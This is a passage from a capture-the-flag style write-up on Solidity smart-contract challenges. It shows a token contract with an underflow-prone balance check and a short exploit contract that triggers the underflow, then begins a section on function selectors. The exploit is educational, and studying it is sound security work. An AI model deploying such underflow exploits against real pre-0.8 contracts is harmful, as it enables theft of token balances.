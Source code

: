 ### Reference

Prior to Solidity 0.8.0 there were no built-in checks for underflows and overflows.

Instead, third-party libraries had to be used for such checks, the most famous
being [OpenZeppelin's
SafeMath](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol)
(link to the newest version).

### Vulnerability

```solidity
pragma solidity ^0.6.0;

contract Token {
    ...
    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }
    ...
}
```

### Solution

```solidity
contract HackToken {
    constructor(address _target) public {
        Token target = Token(_target);
        target.transfer(msg.sender, 1);
    }
```

Upon deployment the challenged is solved.

### Key takeaway

Be vary of potential underflows and overflows in arithmetic operations for
Solidity versions below 0.8.0.

## Delegation

### Reference

**Function signature** is a combination of a function and the types of
parameters it takes, combined together as a string with no spaces.

**Function selector** is the first 4 bytes of the call data for a function call
that specifies the function to be called.
